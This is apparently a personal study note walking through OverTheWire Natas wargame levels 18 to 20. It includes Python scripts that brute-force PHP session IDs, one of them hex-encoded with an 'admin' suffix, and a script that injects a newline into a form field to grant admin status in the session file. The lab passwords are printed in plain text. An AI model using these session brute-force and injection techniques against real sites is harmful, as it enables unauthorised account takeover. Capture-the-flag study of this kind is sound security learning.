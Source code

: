 
2024-07-20 16:35

Source: #web #py #natas 

Tags: [[PHP]]
## Natas 18 

- PHP uses one of two methods to keep track of sessions. If cookies are enabled, like in our case, it uses them.
- If cookies are disabled, it uses the URL.
here in the source we are given `maxid` as `640`

```
import requests
username = 'natas18'
password = '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ'

url = 'http://natas18.natas.labs.overthewire.org/'
session = requests.Session()

for session_id in range(1,641):
    response = session.get(url,cookies = {"PHPSESSID": str(session_id)}, auth = (username,password))

    content = response.text

    if("You are an admin" in content):
        print("Got it!",session_id)
        print(content)
        break
    else:
        print("trying", session_id)
```
### TLDR
we gotta brute force all the possible session id's ranging from 1 to 640 and one of the session id is gotta be the admin session id

## Natas19

source code is similar to natas 18 the difference is that the `phpsessid` is  encoded in hex and the username is appended to the session id before encoding the whole .
eg. `45-admin` is encoded and used as the session id 

```
import requests
username = 'natas19'
password = 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr'

url = 'http://natas19.natas.labs.overthewire.org/'
session = requests.Session()

for i in range(641):
    print({"PHPSESSID" : str("%d-admin" % i).encode('UTF-8').hex()})

    response= session.get(url,cookies = {"PHPSESSID" : str("%d-admin" % i).encode('UTF-8').hex()},auth = (username,password))

    if("You are an admin" in response.text):
        print("got it", i)
        print(response.text)
        break
```
### TLDR

- we run a for loop ranging from 1 to 640 and we apply the loop in `<number>-admin` 
- where `<number>` is cycled through and the whole thing is encoded in hex 
- one of these encoded session id is gotta be the admin session id.
## Natas 20

- here 2 functions are defined namely read and write 
- `read` function 
	- checks if a file path exists corresponding to a session id if not then creates one 
	- it reads the contents from the file creating an array and then process the data bit by bit using the `explode` function
- `write` function 
	- works with the same file name as read, it uses simply writes the output from the server to a file 
Whole code is operating in a session thus we add more code to existing code

```
import requests
username = 'natas20'
password = 'p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw'

url = 'http://natas20.natas.labs.overthewire.org/?debug=true'
session = requests.Session()

response= session.post(url,auth = (username,password))
print(response.text)
print("="*80)
#create a session id 

response= session.post(url,data={"name":"bmth\nadmin 1"},auth = (username,password))
print(response.text)
print("="*80)
#exploiting the explode functionality we add a new line and change admin to 1

response= session.post(url,auth = (username,password))
print(response.text)
print("="*80)
#this is just to check if we are still admin or not 
```
they're just splitting up variables line by line and with a space in between each thing we could just as easily add a new line and change whatever session variables we really wanted to
## Natas21



### References
https://www.youtube.com/watch?v=C9yxUTQLbRI

phpsessid - https://stackoverflow.com/questions/1370951/what-is-phpsessid